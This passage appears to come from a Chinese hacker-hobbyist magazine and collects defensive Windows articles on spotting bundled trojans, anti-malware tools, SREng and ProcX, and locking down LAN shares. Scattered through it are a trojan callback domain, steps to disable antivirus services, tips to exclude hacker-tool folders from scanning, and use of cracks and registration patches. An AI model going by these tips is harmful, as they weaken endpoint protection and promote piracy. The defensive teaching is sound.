- 4. 为了增加木马文件的隐蔽性，大多数放马者都喜欢让压缩包一层套一层，外层是 rar 格式，而最后一层是 exe 的自解压压缩包。因此，WinRAR 文件层次越深的越有问题（图2）。
- 5. 安装文件时产生临时文件的大多数都有问题。记得有一次我从 BT 上下载了一个卡巴斯基安装程序，结果在安装时发现当前目录下生成了一个文件名跟安装程序非常类似的临时文件。因为开始江民的病毒库不是最新的，所以没有检查出来。但这个临时文件实在可疑，所以我马上对江民进行了升级，结果就查出装有木马（图3）。

此外，生成的临时文件比原来的文件要小。其实想一想也知道，文件大的肯定被捆绑了东西（要不怎么会变大呢），而生成的临时文件才是真正的正常安装包。当安装完毕后，临时文件就会被删除。

大家仔细观察一下就会发现，生成的临时文件跟原文件的名字差别只在于“_”（图4）。

- 6. 压缩包中不在软件安装目录、却以 setup.exe 命名的文件多数有问题。记得有一次我用 BT 从网上下载了一个诺顿杀毒企业黄金版 v8.1，在压缩包里的安装程序目录外有一个名字为 setup.exe 的可执行文件（图5）。

当时我就很纳闷，诺顿企业版一般只有一个安装程序包或者是它的 setup.exe，跟其他相关压缩文件都是位于同一个目录下的，为什么这个就不同呢？所以我对此产生了怀疑。虽然我使用江民扫描时没有发现木马（图6），但我还是有疑虑（小编：疑心病也太重了！……唉，没办法呀，小心驶得万年船嘛），所以就找了一台装有还原软件的电脑试运行了一下。

果不出我之所料，我的 Sygate Personal Firewall Pro 防火墙提示正要访问网络，访问网址为：93315.ipread.com，访问由 G_Server2006.exe 发起。大家可以看到我根本就没有运行 IE，进程管理器中也看不到 IE 的进程，不存在问题才怪呢，如图7。

## 安全第一

想到什么？对，就是灰鸽子。可是我安装了卡巴斯基，居然也找不出 `setup.exe` 有问题。看来，也不能绝对信任这些杀毒软件了。应该是灰鸽子的变种吧，要不就是做了专门的免杀处理。唉，现在的免杀真是越做越厉害了。

于是，我用 `dir /s` 命令查找 `G_server*.exe`，居然没有任何结果。再一想，木马文件应该是被隐藏了吧，于是进入了 `system32` 目录，用 `attrib g_server2006.exe` 查看了一下，果然文件属性被设置为了系统和隐藏。同时，用防火墙进一步查看，这个确实就是访问网络的那个 `G_server2006.exe`（图8）。

- 7. 注册机或破解文件中可能被捆绑有木马。你想呀，现在大多数国人都喜欢用破解软件！我就是这类大军中的一员，谁让咱是穷学生呢？


图7

大家还记得去年我写的“小心压缩包中的猫腻”那篇文章吗？那是很典型的一个例子。所以，大家在用注册机或破解文件的时候千万要小心。

其实，黑客利用 BT 下载的压缩包放马还有许多其它的花招，大家平时可以多总结一下，这里我就不再列举了。

**最后说一下用 BT 下载文件时注意的问题。**


图8

然后看看有没有脚本，如果有脚本，那脚本内容里有 `setup`、`presetup`、`silent` 这类安装语句，这里面很可能有问题。


图9

- 1. 不论是 BT 下载，还是其它方式下载的文件，尤其是压缩包，不要直接双击运行，而要先仔细查看压缩包内容。
- 2. 对于有注册机或破解补丁的压缩包，最好先用带有最新病毒库的杀毒软件检查一遍；即使提示没问题，也不要掉以轻心。
- 3. 千万不要让“好奇心”害了你。那些带有“美女”“裸聊”等诱导字样的文件，往往利用人的好奇心引诱上钩。
- 4. 用 BT 下载前先看评论与反馈，尽量选择口碑较好、来源可靠的资源，减少不必要风险。

总之，一句话：对于利用 BT 下载下来的压缩包，一定要谨慎！正所谓，小心驶得万年船，别因一时大意，而让自己的爱机成为别人的肉鸡啊！

## 流氓软件的克星

chenggong——**360安全卫士**

提起流氓软件，黑迷们可能都深恶痛绝。我们浏览网页或安装软件时稍不注意，就可能被插件或流氭软件下载和安装，给我们带来了很多麻烦。为了阻止流氓软件，我们安装了多种软件，但效果并不十分理想。今天我给黑迷们带来了一个好用的软件——“360安全卫士”。它不仅可阻止安装流氓软件，而且在安装的同时，我们可免费获得世界著名的卡巴斯基杀毒软件，还可在半年内免费升级，卡巴斯基可是价值好几百元！

### 一、多杀毒软件的安装

黑迷们都知道，一个系统中如果安装两种杀毒软件很可能冲突，使系统运行缓慢，甚至崩溃。我的电脑中已经安装有瑞星杀毒软件，因为需要经常测试各种木马，我又不想卸载瑞星，直接安装“360安全卫士”中的卡巴斯基肯定不行，怎么办？今天我教黑迷们一招，在一个系统中安装2种杀毒软件。

先运行输入“msconfig”打开系统配置实用程序，在启动项中将“RavTask”禁止启动，然后在“控制面板—管理工具—服务”中将服务名称为“RsCCenter”和“RsRavmon”的2个服务停止，再将2个服务的“启动类型”设为“已禁用”，如图1。


图1

重新启动系统后，瑞星不会再自动运行，我们就可正常安装“360安全卫士”中的卡巴斯基了。这样我们系统中就同时存在2种杀毒软件。如需恢复运行瑞星，我们只需将卡巴斯基的服务（服务名为“AVP”）停止，再启动瑞星的2个服务，我们就可用瑞星杀毒了。我个人认为瑞星杀毒软件在对付国内的病毒，尤其是在木马方面比卡巴斯基强大；当然卡巴斯基在某些方面也比瑞星强，因此2种杀毒软件互补，我们的系统安全就更有保障了。

我们首先到 http://www.360safe.com/download.html 去下载豪华版的“360安全卫士”（标准版不包括卡巴斯基，在安装中需要下载卡巴斯基安装程序）。安装完“360安全卫士”后，点“病毒查杀”项目下面的“病毒扫描”（或其它的“更新病毒库”等都可以），“360安全卫士”将询问你是否安装“卡巴斯基”，点“确定”后程序自动连接服务器获取激活码。安装中需注意一定要保存好给你的免费激活码，然后按步骤输入免费激活码即可成功安装“卡巴斯基”，并且获得半年免费升级。

### 二、卡巴斯基的设置

安装后我们可根据程序的提示进行设置。为了保护我们的设置不被其他人更改，可启用密码保护，如图2。


图2


图3

勾选“启用密码保护”，输入你设定的密码就可以了，下面的“范围”勾选“所有功能”，然后点下一步进行“交互式保护”的设置，如图3。

建议勾选“交互式保护”，并勾选“启用注册表保护”。选上“交互式保护”后，就可随时监控系统程序的运行，我们每运行一个程序“卡巴斯基”都会询问你是否允许运行。有的黑迷可能会感觉到很麻烦，那就选上“基本保护”吧！设置完成重启系统后，就可使用“360安全卫士”了。

### 三、360安全卫士的使用

- 1. 查杀恶意软件：可全面清除116个恶意软件、1694个恶意条目，可彻底查杀隐藏在系统中的恶意软件，保障我们的电脑安全。点击右边的“开始扫描”按钮，程序可自动快速扫描系统中的恶意软件，如图4。
- 2. 诊断与修复：点“全面诊断”，程序可扫描系统当前所有的进程。在进程上单击鼠标，程序可显示出选定进程的详细情况和描述，并且提出建议，方便我们进行选择，如图5。并且对每个进程在后面都对进程的作用和功能进行详细描述，以方便我们辨认可疑进程。发现可疑进程勾选后，点下面的“修复选中项”即可将当前进程结束；启动项可扫描从注册表自动启动的程序，并对程序的作用和功能进行详细描述，以方便我们辨别恶意程序和木马。系统服务显示应用软件的服务项目，并用不同的符号表示不同服务：正常服务、可疑服务和危险服务。点“一键修复”可自动修复启动项及 IE 劫持、限制等。
- 3. 病毒查杀：
  - 卡巴斯基的主要功能在此选项，有病毒扫描、更新病毒库、查看备份等选项。
  - “设置实时保护”可对卡巴斯基的保护、扫描、服务等进行设置。
  - 建议将主动防御相关项目勾选，以提高系统保护能力。
- 4. 高级工具：
  - 弹出插件免疫：主要是对一百多种插件进行免疫，建议使用“选中推荐免疫项”后再点“免疫选中插件”。
  - 清理历史记录：可清理 IE、第三方浏览器及常见软件的历史记录。
  - 若系统不能正常安装运行“360安全卫士”，可到 `http://www.360safe.com/repair.htm` 下载修复工具。


图4


图5


图6

用多种方法都无法查出捆绑软件，有了卡巴斯基的保护我们就“不怕了”；只要我们安装、运行软件时查看卡巴斯基的提示，将捆绑的病毒、木马的进程阻止运行，只允许我们需要安装的软件进程运行，这样即可安装正常程序，又阻止了病毒、木马。当然这需要丰富的经验去判断，否则可能会造成程序安装失败。


图7

> **小编语**：雅虎助手的前身“3721”正是现在的“360安全卫士”的奠基来源之一，自己做出的流氓软件和信息污染起来也应该更得心应手些吧。  
> （文章中涉及到的360安全卫士安装版已收录到光盘中。）

### 什么是FTP

FTP（File Transfer Protocol）是文件传输协议。文中提到的 FTP 一般有两层含义：一是网站开放的 FTP 服务；二是系统自带命令可连接服务器并进行上传、下载、删除文件等操作。

## 黑客江湖之勋魔传说


攻与防永远是一个安全的整体，作为黑客技术的爱好者，不仅要具备攻破安全的能力，同时也要保障自身的安全。文章以“勋魔传说”工具为主线，介绍其在系统安全管理中的用途与实战价值。

勋魔传说是一个绿色软件，直接运行后有很多非常实用的功能，这里一一为大家进行介绍。

- 1. **文件管理**：可查看和管理任何文件，对可疑文件进行标记提示；可在系统目录中排查可疑项，并进行简单推断与删除等操作。（图1）
- 2. **文件监视**：可跟踪文件操作并归类，了解文件在系统中的新增、删除、修改等行为，可辅助识别木马释放与异常文件活动。（图2）
- 3. **进程管理**：列举进程路径、名称与 PID，并显示进程加载模块，便于识别可疑模块与可疑注入行为。（图3）
- 4. **服务管理**：从服务安全角度列举系统与非系统服务，帮助定位木马服务与高风险服务（如 `server`、`RemoteRegistry` 等），并支持禁用处理。（图4）
- 5. **窗口管理**：枚举当前应用程序窗口模块，便于安全排查。
- 6. **注册表**：可直接对注册表项进行操作（删除键名、修改键值等）。
- 7. **网络连接**：显示当前连接信息并补充进程路径等上下文，可结合 IP 信息辅助定位可疑连接。（图5）
- 8. **捕获数据**：类似 sniffer，可抓取 http/ftp 等协议通信信息，也可抓取流媒体文件，便于分析传输行为。（图6）
- 9. **启动项**：列举可利用的启动项，结合服务管理可进一步判断持久化风险。
- 10. **其它杂项**：包括端口、脚本运行限制、共享相关设置、注册表快速操作等辅助安全功能。


总结：安全意识非常重要。借助这类工具并结合良好习惯与警惕性，可以显著提升系统安全性并减少木马藏身空间。

> 编者评语：文章写得较简单，但工具经测试较实用，值得推荐。

## 我常用的几款安全工具

[W.W Group] 逆流风（李友贤）

现在的木马免杀技术越来越泛滥，菜鸟们随便就可以对木马进行修改让杀毒软件失明，对修改后的灰鸽子、上兴、QQ大盗视而不见。这样的杀毒软件就像摆饰一样中看不中用，还浪费系统资源（小编注：上期的《黑客X档案》中我们刊登了如何给木马做免杀的专题文章）。这个时候，如果发现系统异常，我们就再也不能盲目地相信杀毒软件的检测报告了，要自己拿起武器进行全面的检查。下边就为大家介绍几款我常用的安全工具。

### 一、Active Ports 端口查看工具

Active Ports 是一款端口查看工具，它能帮我们详细地了解目前打开的 TCP 和 UDP 通讯端口、对应的远程 IP 地址，以及使用该端口通信的文件详细路径。其运行的主界面如图1所示。我正用 Maxthon 浏览黑客X档案的网站，Active Ports 就告诉了我们，哪个目录下的 `Maxthon.exe` 使用了本机的2028端口连接到了 `211.152.32.124`（就是黑客X档案论坛）的80端口，所使用的通信协议是 TCP 协议。


一般个人电脑开启的端口有137、138、139、445等端口，IE 占用是1025、1026……而如果开 QQ 还会打开4000、4001……等端口。这些端口一般是连续的。如果有特殊的端口开放，我们就要好好观察一下是什么程序打开的，还可以使用“查询信息”按钮来获取更多的资料（小编：也可以使用搜索引擎搜索“80端口”这类关键词来学习到和该端口相关的更多知识）。

### 二、ProcX 进程管理工具

ProcX 是一款很好用的进程查看工具，具有非常强大的功能，其运行界面如图2所示。

它可以列出当前运行的所有进程，点击“查看”→“DLL窗口”后，选择任意进程，就可以看到该进程调用到的 DLL 文件，以便我们找出注入在进程中的 DLL 木马。如果我们在使用 Active Ports 发现可疑进程，又无法用 Active Ports 自带的结束进程功能搞定它，就可以打开 ProcX，右键选中可疑文件，如图3（当然这里的 `notepad.exe` 是 Windows XP 自带的记事本，不是木马，在此仅做演示所用）。我们可以看到右键菜单有许多有用的功能：“结束进程”“结束并删除”“暂停”“恢复”“显示MD5”以及“网络状态”。遇到无法结束的进程，我们可以使用“结束并且更名”令文件无法开机启动，再删之。当然也可以让它在下次启动时删除。点击“属性”→“用Google搜索”还可以帮我们通过网络方式寻找该进程的相关信息，这样就方便了我们有针对性地去查杀该病毒。


### 三、SREng

SREng（System Repair Engineer，系统修复工程师）是一款用于调整和修复系统的工具。我们先看看“启动项目”，它显示的是通过所有注册表启动的文件，并且能够自动帮我们分析这些文件，如图4。


如果 SREng 发现问题，会弹出对话框提示我们，并且将危险启动项用红色显示出来。我们可以对这些启动项进行“编辑”“删除”，也可以在它里使用“Google搜索”自动查询相关资料。点击“启动文件夹”里面显示的是通过开始菜单中的“程序”→“启动”启动的文件。点击“Win.ini”“System.ini”“AutoExec.bat”“Config.Sys”“Boot.ini”会显示通过这些文件启动的启动项，我们能对它们进行“编辑”“删除”“新建”等处理，执行后点“保存”即可。最后一项是“服务”，里面可显示系统服务和驱动程序（小编：能显示驱动程序是一个不错的功能；不少木马启动服务的工具都没有这一项，因此那些通过驱动启动的木马将不能被查出来）。“Win32 服务应用程序”显示的是系统中的服务，勾上右下角的“隐藏微软服务”可以大大减少我们的分析工作量。只要看看系统中有什么非微软的服务，再到 Google 搜索，就能识别出许多通过服务项启动的木马。例如，我的电脑里安装有 StyleXPService，它是一款桌面工具，将微软服务都隐藏后服务列表里就只显示它了，如图5。


图7


图5


图8

> **注意：**有些木马会通过隐藏服务，因此我们要通过“隐藏微软服务”观察非微软服务和可疑项。

再看看“系统修复”功能。首先是文件关联，假设木马修改了 TXT 关联，我们打开 TXT 文件时就会自动启动木马。SREng 可以列出常见的文件关联，如果其中有被非法修改过的项目，SREng 会自动显示出来，我们可以点击右下角的“修复”来还原正常的文件关联。第二项和第三项是“Windows shell”和“Internet Explorer”，这两项可以修复一些恶意软件对系统和 IE 的修改，还能帮我们突破网吧的种种限制措施，如图6。

“浏览器加载项”同样能修复恶意软件的加载项。有的网站通过修改我们计算机中的 Hosts 文件达到域名欺骗的目的。我们可以通过“Host 文件”选项对 Host 文件进行查看和编辑。最后一项“自动修复”有两个级别：“高强修复级别”将删除系统里面的所有策略项；“推荐修复级别”将修复所有已知 Windows 注册表相关错误。一般选“推荐修复级别”，点“修复”即可使系统回到正常状态，如图7。

“智能扫描”功能会扫描我们系统存在的问题并生成报告，便于我们解决系统存在的问题。“扩展”功能是 SREng 的特色，SREng 支持我们开发自己的插件，SREng 有详细介绍，我就不啰嗦了，如图8。

以上三款工具就是我常用的查马杀马工具，结合使用一定能查出隐藏在系统中的杀毒软件又查不出的木马（当然，没中马是查不出的）。最后希望杀毒软件创新技术，免得我们要这么麻烦地自己查杀木马。


图6

> **关键词解释：文件关联**  
> 一般情况下双击 txt 文件会调用记事本打开，双击压缩文件会调用 WinRAR 打开，双击 html 文件会调用浏览器打开。恶意程序可以通过修改文件关联实现劫持，例如把 txt 关联到木马程序，导致用户每次打开文本文件时都被调用。  
> （文章中涉及到的工具 Active Ports、ProcX、SREng 已收录到光盘中）

> **小编密语：**我对文中提到的三款工具一一进行了测试，确实还不错。不过，现在不少的木马还采用了隐藏文件、端口、服务的技术，这三款工具估计就查不出来了。文章的不足之处是没有结合实例进行介绍，菜鸟朋友们拿到这个工具可能也不知道如何进行准确的查杀木马，这不得不说是一个遗憾。

## 局域网共享安全

黑侠（Black Mask）

为了更好地提高工作效率，不少公司都建立了自己的内部局域网，并且通过局域网来共享资料。但你想过没有？如果没有很好地设置局域网共享的安全，难保哪一天公司的一些机密文件会被他人泄露出去，那后果是不堪设想的。希望这篇文章会对网管朋友们有所帮助，好了，切入正题吧。

局域网共享是基于 IPC$ 和 NetBIOS（即 UDP 的 137 和 138 端口以及 TCP 的 139 端口）以及网络文件和打印机共享组件，关闭其中任何一个，都会造成共享文件夹无法访问，切记！

### 一、创建共享文件夹

在 Windows 2000 操作系统中创建一个共享文件夹，方法非常简单：新建一个文件夹，右击 -> 共享，选择“共享该文件夹”然后确定，这样一个共享文件夹就创建好了。局域网里的用户可以通过网上邻居或者在 IE 里输入：`\\共享主机IP\共享文件夹名` 来浏览共享文件夹，如图1。但是这样做，局域网中的任何人都可以通过网上邻居来浏览该共享文件夹，那就没有安全性可言了。


### 二、隐藏共享文件夹

共享文件夹创建好了，但是局域网里的任何用户都可以通过网上邻居看到它，太危险了。现在我们来隐藏它，方法如下。右击该共享文件夹，选择共享，再点击“新建共享”，弹出一个“新建共享”的对话框，在“共享名”里随便起个名字，如“工作$”（后面一定要加上 `$`，`$` 也就是隐藏的意思）。再设置一下允许最多用户，我设置为 2 个，再点权限，设置为只读。如果不设置权限的话，系统默认这个共享文件夹可以被他人任意修改和删除。我们可以根据实际情况去设置，如图2。点确定，然后再应用（如果你再点确定的话，当你再打开网上邻居的时候，该文件夹还是显示在那里并没有隐藏）。此时，你会发现在“新建共享”前面多出了一个“删除共享”的按钮，如图3。再点击“删除共享”如图4，这样将文件夹隐藏掉，现在打开网上邻居就看不到这个文件夹了。


但是，如果事先没有将系统默认的磁盘隐藏共享删除，那么你的努力将白费：任何人在地址栏里输入：`\\ip\盘符$` 就可以浏览到每一个盘里的内容，实际的隐藏共享文件夹还有什么意义呢？在 CMD 里输入 `net share` 命令可以看到本机当前打开的所有共享文件夹。我们可以修改注册表停止这些共享。

```bash
\\ip\盘符$
net share
regedit
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanServer\Parameters
AutoShareServer=0 (DWORD)
AutoShareWks=0 (DWORD)
```

现在在网上邻居已经看不到那个共享文件夹了，通过 IE 里输入 `\\ip\盘符$` 也浏览不到你的默认磁盘了，基本上已经比较安全了；但是对于稍懂一些网络知识的老鸟面前还是显得太脆弱，只要随便去网上下载一个共享扫描软件对局域网进行扫描，你的隐藏文件夹就会现出原形了。

### 三、共享访问权限

既然无论再怎么隐藏文件夹，也逃不出扫描软件的法眼，那就要设置共享文件夹的访问权限了。IPC 共享本来就需要提供身份验证，因而共享始终离不开权限的影子。在默认的情况下，共享文件夹所拥有的是 “Everyone” 的读权限，因此任何人都能读里面的内容。我们可以修改它的权限设置，使别人访问的时候需要提供身份验证。首先给系统再新建一个账号并设置好密码，例如账号 jxtop，密码 jxtop818283（专门给共享文件夹用的，不是登录账号）。再点击该共享资源属性里的“权限”，在共享权限里删除 “Everyone” 用户，再将刚刚创建的账号 jxtop 添加，设置权限后，只有知道账号和密码的人才能访问。

把 jxtop818283 告诉指定用户，对方可以在自己的系统里添加一个密码为 jxtop818283 的账号 jxtop，并且使用这个账号进行登录系统。此时再到 IE 里输入 `\\IP\工作$` 就可以访问到文件夹里的内容了。虽然麻烦了点，不过绝对够安全。不过事实上，我们也完全可以使用 jxtop 这个用户去进行 IPC 连接，方法是在 CMD 下输入命令 `net use \\IP\ipc$ "jxtop818283" /user:jxtop`。


### 四、防火墙指定访问共享的 IP

虽然通过上面的几个方法，基本上可以控制好对共享资源访问的安全，但是为了以防万一，我们最好指定一下对共享允许访问的 IP 地址。以天网防火墙为例，添加一个规则，名称为“允许访问的IP”，数据包方向“接收”，对方 IP 选“指定地址”，填入 192.168.0.254（你要允许访问共享文件夹的 IP），数据包类型为“TCP”，端口“从 134—139 端口”，满足条件为“通行”，如图8。


现在还需要添加另外一条规则，禁止任何 IP 来访问我的 134—139 端口，否则刚才设置的规则就没有意义了。再次添加一条规则，名称为“禁止访问的IP”，数据包方向“接收”，对方地址“任何地址”，数据包类型为“TCP”，端口“从 134—139 端口”，满足条件为“拦截”，如图9（注：可能有的朋友看到这里会说，你这样设置岂不是连 192.168.0.254 也不能访问了，其实不会的，只要将“允许IP”这条规则放到“禁止访问IP”规则的前面，防火墙在执行的时候，会从上往下的方向去执行，就会允许 192.168.0.254 通行了）。


如果还想让其他的电脑也能访问共享文件夹的话，只要在“禁止访问的IP”这条规则的前面再添加一条允许访问 IP 的规则就可以了。通过上面这一系列设置，我相信你的共享已经相当安全了。

### 五、监视谁在浏览我的共享

打开“控制面板”，选择“管理工具”“计算机管理”，单击“系统工具”“共享文件夹”“会话”，在这里你可以看到有哪些人在访问你的共享，右击关闭会话连接就可以把对方踢走，如图10。


虽然经过以上的一些设置，共享资源已经达到了一定的安全程度，但也并不是无懈可击。如果在对方已拿到访问共享资源的账号和密码前提下，再用 ARP 地址欺骗轻松绕过天网防火墙，还是能成功访问到你的共享文件夹（关于 ARP 地址欺骗，我在第8期的文章里提到过，大家可以参考一下）。其实一个小小的共享，里面包含着许许多多知识和技巧，需要大家不断地研究和探索。

> 编辑点评：面对黑侠的这篇文章，小编心情真的很矛盾……

## 杀木马，名不虚传

冰河洗剑


用过了各种各样的反木马软件，一直找不到一款真正让我满意的，直到有一天在网站上看到了 Ewido 的介绍，抱着怀疑的心态试了试，没想到却让我深深地爱上了它。这一年多来，Ewido 从 3.0 到 4.0，与江民的 KV2005 到 KV2006，两强联手，伴我走过了风风雨雨，闯过了无数黑网恶站，我已经离不开 Ewido 了。下面就向大家介绍一下我用 Ewido 一年多来的经验吧！

使用注册码过的 Ewido 更新还是有些麻烦，每次更新时，都会提示注册码错误，中断更新（图2）。这是因为升级服务器检测到这个注册码升级次数太多，所以将其封掉了。Ewido 又自动变回了未注册版本。不过在未注册时是可以更新病毒库的，更新完病毒库后，再重新注册，就又能开启实时监控功能了。

### 一、Ewido 简介

Ewido 是 “Ewido Security Suite” 的简称，最新版是 V4.0.0.172C。在相关评测中表明，它可以有效地检测出多形态和进程注入式木马，这些木马甚至完全不能被某些杀毒软件所查杀。在众多的反木马程序中，Ewido 表现非常出色。

### 二、Ewido 的安装与更新

最新的 Ewido V4.0.0.172C 已经有了汉化版本，而且网上还有许多绿色版下载。下载之后不用安装就可以运行。推荐绿色下载版本（含病毒库升级程序），集成自动升级器，使用方便。解压到程序目录后，双击 “Ewido.exe” 即可运行 Ewido 查杀系统中的木马和病毒。

当然也可以从官方网站下载安装。未注册的 Ewido 可以直接升级更新木马病毒库，但不能提供“自动更新”和“驻留护盾”功能。输入有效注册码后，即可启动“自动更新”和“驻留护盾”。


小提示：在绿色版本中，每次升级完毕后，可以直接运行文件夹下的 “Patch.exe” 程序，为 Ewido 打一次补丁，就可以自动开启实时监控，不用重新注册了。

如果嫌麻烦的话，可以下载自动更新程序（如 Ewido Anti-spyware Live Updater V3.3 Final），也可以自动更新病毒库无需注册。升级程序压缩包中通常包含 “update.exe” 与 “umain.exe”，解压覆盖到 Ewido 安装目录后，运行 “Update.exe” 点击“立即检查更新”即可（图3）。


小提示：绿色版本的 Ewido 在注册后不能直接启动驻留护盾，还需运行文件夹下的“设置.bat”文件。

### 三、实时监控，拦截最迅速

运行 Ewido 后，在“状态”选项界面中点击“驻留防护盾”后的“更改状态”按钮，使其处于激活状态（图4）。关闭 Ewido 后，防护盾仍会在后台自动运行保护系统。可在进程管理器中看到 “Guard.exe” 进程。还可在驻留护盾选项中勾选相关自我保护设置，以增强防护能力，保护进程，普通木马也无法结束该进程。

Ewido 对木马病毒的反应非常快，在我的电脑上，同时开着 KV2006 和 Ewido，往往是 Ewido 先一步拦截木马，而 KV2006 还来不及作出反应，Ewido 已经将木马清除掉了（图5）。


在大部分黑友的电脑中都保存有一些黑客工具和木马，为了防止黑客工具在运行时被杀掉，可以将黑客工具所在的文件夹全部添加到免监控查杀的列表中。选择“感染”界面，点击“例外”标签，再点击下方的“添加规则”按钮，在弹出的对话框中点击“浏览”，指定黑客工具文件夹即可（图6）。

### 四、清除流氓软件

Ewido 的强大功能不仅体现在木马病毒的拦截查杀上，而且还具有很强的分类查杀功能，例如我们可以用它来清除系统中的流氓软件和广告插件。

首先点击顶部的“扫描器”选项，然后选择界面中的“设置”标签，在“如何扫描”中勾选“使用启发式分析探测未知恶意软件”，取消其它项；勾选“可能不想要的软件”中的所有项目；其它设置项保持默认（图7）。


切换到“扫描”标签，点击“自定义扫描”按钮，打开扫描设置界面。在右边点击“添加文件/文件夹”按钮，浏览选择系统盘即可（图8）。点击“立即扫描”按钮，就可以开始对系统进行扫描，检测是否有流氓或广告软件了。可以看到扫描到了三个恶意软件，其中 “Adware.Cdn” 就是流氓软件“中文上网”。点击“推荐操作”，将其改为删除，然后点击“应用所有操作”按钮，即可将流氓软件清除掉（图9）。


如果碰到有些流氓软件或木马软件无法直接删除掉，可选择操作为“隔离”。下次启动时，Ewido 会自动阻止这些程序的运行调用，木马与流氓软件就会无法运行了。这时候再切换到“感染”界面中，选择“隔离”标签，在这里可以看到所有被隔离的病毒木马文件，点击“选择全部”，再点击“最后去除”按钮，就可以彻底删除所有的木马病毒与流氓软件了。

### 五、捆绑加壳木马无放过

现在许多木马病毒都是采用了特殊手段进行伪装，比如与正常程序捆绑在一起，或者对木马病毒进行加壳等。Ewido 都可以有效地检测出捆绑和加壳的木马病毒来。

一般来说，当我们使用普通方式检测不出系统中的木马病毒，但系统确实运行不正常，这时候就可以进行捆绑与加壳检测了。选择“扫描器”界面中的“设置”标签，在“如何扫描”中勾选“使用启发式分析探测未知恶意软件”“扫描附加到其它文件中的恶意软件（捆绑程序）”“在压缩的可执行文件（UPX、petite、FSG）内扫描”项；去掉对“可能不想要的软件”中所有项目的选择。在“扫描什么”中勾选“按扩展名扫描文件”项。设置完毕后，切换到“扫描”标签，选择“快速系统扫描”，即可对内存、注册表、Windows 目录等重要文件进行扫描（图10）。


### 六、数据流木马，不再难寻

玩黑的朋友都知道，NTFS 分区的数据流给隐藏木马留下了绝好的藏身之所，木马以数据流方式隐藏，不仅外观文件体积等没有任何变化，而且杀毒软件百分之百都对数据流视而不见！要想检测系统中的 NTFS 数据流木马，必须使用专用的 NTFS 数据流信息检测软件，而且还不能确定数据流中包含的到底是不是木马。不过在 Ewido 的眼前，数据流木马统统逃不过法眼。

在扫描设置界面中勾选“如何扫描”下的“在 NTFS 数据流（ADS）中扫描”项（图11），其它扫描项可以取消，并选择扫描所有文件。然后在扫描自定义窗口中，指定 NTFS 分区，单独对其进行扫描检测即可。


图11

### 七、揪出 Webshell，网站保安全

如何检测出网站中的各种 Webshell，一定是让管理员头疼的问题，ASP/PHP 木马后门，可能隐藏在某个网页中，可能只是一句代码，也可能是伪装成一张图片进行调用……隐藏后门的方法数不胜数，如何才能保证网站的安全呢？

在扫描设置界面中，勾选“使用启发式分析探测未知恶意软件”项即可，然后勾选“按扩展名扫描文件”项。在 Ewido 中已经默认扫描了 ASP、PHP、HTML 等常见网页格式的文件；但是木马后门可不仅仅是直接以网页形式存在的，黑客们入侵后可能把 Webshell 保存为图片，在某个网页中调用运行。


图12

不过 Ewido 默认情况下也会检测 JPG、JPEG、WMF 等常见的图片格式，这里我们还要添加 BMP 格式文件：直接在输入框中输入“.bmp”，再点击“添加扩展名”按钮，即可让 Ewido 也检测 BMP 图片了（图12）。设置完毕后，在自定义扫描中指定 WEB 所在文件夹，进行全面扫描就可以揪出网站中的木马后门了。

### 八、全面扫描，计划进行

当然我们也可以一直执行所有扫描，对系统进行彻底检测，但是这样花费的时间可能比较多，因此我们可以使用计划任务功能，让 Ewido 定时对系统进行全面扫描。例如我们可以设置在每天中午工作间休息时进行扫描。

点击“扫描器”，选择“扫描”标签，点击“自定义扫描”，然后在扫描项目设置界面点击“添加注册表”“添加内存”“添加文件/文件夹”所有项目。在左侧“配置文件”中，重命名配置文件名，然后点击右侧下方的“计划配置文件”按钮，切换到“计划器”标签。在这里勾选“计划此设置文件”，将“开始时间”设置为“固定 12:30”，将“周期”设置为“每天”即可（图13）。以后每天中午 12:30，Ewido 就会对系统进行彻底而全面的扫描了。


图13

### 九、附加工具，全面呵护系统

除了上面强大的反木马间谍功能外，Ewido 中还附带了一些小工具，可以对系统进行更为全面细致的保护。

- 1. 揪出木马进程

大部分木马都是以进程方式运行的，查看进程是揪出木马必不可少的步骤。在 Ewido 中提供了查看可疑进程的功能，直接点击“分析”界面按钮，选择“进程”标签，在这里就可以看到所有的进程了，其中包括用资源管理器看不到的隐藏木马进程。

在进程信息中包括对应的程序文件名和路径，可以用于判断进程是否可疑。另外，在进程信息中，还有两个项目非常有用：在“Internet”中，可看到该进程是否连接了网络，该功能可以有效防范一些 DLL 注入类型的木马，例如有的木马是注入到 “Explorer.exe” 进程中；在“服务”中可以查看该进程是自动运行进程，还是通过服务启动的。


图14

- 2. 检测木马连接

在“进程”标签中，可以确定某些可疑进程是否为木马。勾选“隐藏本地连接”，在中间列表栏中显示的就是所有与 Internet 连接的程序了，并显示了详细的连接信息，包括连接协议和远程 IP 地址等（图15）。


图15

其中 IP 地址是很重要的信息，可通过 IP 地址及对应的域名，看看连接的是网站还是单独的主机。如果连接的是网站，那么确定是否正在浏览该网站网页，或者连接网站后台升级更新某些程序；如果连接的是个人主机的话，查一查该 IP 是否为动态 IP，如果是的话，很有可能就是反弹木马连接。点击下方的“终止连接”和“终止应用程序”按钮，没有发现异常的话进行后续查杀。

另外，在“自动启动”项中，可以查看系统所有启动项目，找到可疑项目并根据启动路径将其删除；在“浏览器插件”中可查看 IE 加载的插件，可找到流氓软件插件，将其删除掉。

- 3. 文件粉碎保隐私另外，寻找专门的删除软件也很有必要。Ewido 提供的文件粉碎机，可以让文件彻底删除且无法恢复。

首先，将要删除的文件全部移到一个文件夹中。然后在 Ewido 中点击“工具”界面按钮，选择“粉碎器”标签，在下方点击“添加”按钮，浏览并指定刚才要删除的文件夹，将其添加到中间窗口的列表中。在右边选择删除等级，一级为“安全模式”；非常机密的文件可选择“猜疑模式”；然后点击“开始”按钮，就可以彻底删除文件并覆盖垃圾数据了（图16）。

此外，在 Ewido 的“反间谍”选项卡，还可以对系统进行一些特别的优化和保护，例如为 IE 文件下载开启 10 进程、退出 IE 时删除隐私、关闭时清除页面文件等。勾选其中的“高级选项”，还可以进行更多设置。

> （文章中涉及到的 Ewido 官方安装版与 Ewido V4.0.0.172c + 病毒库升级程序 V3.3 Final 汉化绿色特别版已收录到光盘中）

